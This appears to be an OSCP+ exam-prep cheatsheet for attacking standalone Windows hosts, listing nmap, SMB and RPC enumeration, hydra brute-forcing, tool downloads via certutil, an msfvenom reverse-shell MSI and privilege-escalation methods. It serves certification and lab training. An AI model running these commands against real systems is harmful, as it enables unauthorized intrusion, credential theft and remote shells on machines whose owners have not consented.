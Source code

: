 # 🪟 OSCP+ Windows Standalone Cheatsheet

## 1. 🔍 Initial Enumeration (Before Exploit)

### 🔎 Nmap
```bash
nmap -sC -sV -Pn -p- <IP> -oN win_full.nmap
```

### 🔑 Common Ports
| Port | Service | Notes |
|------|---------|-------|
| 135  | RPC     | Use `rpcclient` |
| 139, 445 | SMB | Null sessions, shares |
| 3389 | RDP     | Brute-force weak creds |
| 5985 | WinRM   | PowerShell remoting |
| 496xx | High RPC ports | Seen in newer Windows |

### 🗂 SMB
```bash
smbclient -L \\\\<IP>\\ -N
smbclient \\\\<IP>\\share -N
enum4linux-ng -A <IP>
```

### 🧑‍💻 RPC
```bash
rpcclient -U "" <IP>
> enumdomusers
> queryuser RID
```

### 💻 WinRM
```bash
crackmapexec winrm <IP> -u user -p pass
```

---

## 2. 🧨 Initial Access / Exploitation

### 🔓 Exploits
- EternalBlue (MS17-010)
- RDP BlueKeep
- Web upload > RCE
- Weak passwords (SMB, WinRM)

```bash
hydra -l Administrator -P rockyou.txt smb://<IP>
```

### 📂 Upload via SMB
```bash
smbclient \\\\<IP>\\share
put nc.exe
```

Run using:
- `schtasks`
- `sc.exe`
- Registry run keys

---

## 3. 📈 Local Post-Exploitation

### 🧰 Tools
- `winPEASx64.exe`
- `whoami`, `net users`, `systeminfo`, etc.

### 🐚 Useful Commands
```powershell
whoami /priv
net user
net localgroup administrators
systeminfo
```

### 🔥 Upload Tools
```powershell
certutil -urlcache -f http://<IP>/winpeas.exe winpeas.exe
Invoke-WebRequest http://<IP>/nc.exe -OutFile nc.exe
```
---

## 4. 🚀 Privilege Escalation Techniques

| Method | Description |
|--------|-------------|
| AlwaysInstallElevated | Install MSI as SYSTEM |
| Unquoted Service Path | Drop `.exe` in path |
| DLL Hijacking | Replace a DLL |
| Token Impersonation | JuicyPotato/PrintSpoofer |
| Weak Service Permissions | Modify `binPath` |
| Stored Passwords | `.rdp`, `.ini`, `.xml` |

### 📦 AlwaysInstallElevated
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### 🪟 Unquoted Path
```powershell
sc qc <vuln_service>
```
Drop payload to match unquoted path like `C:\Program Files\test.exe`

---

## 5. 🎯 Capture Proofs

```powershell
type C:\Users\<user>\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---
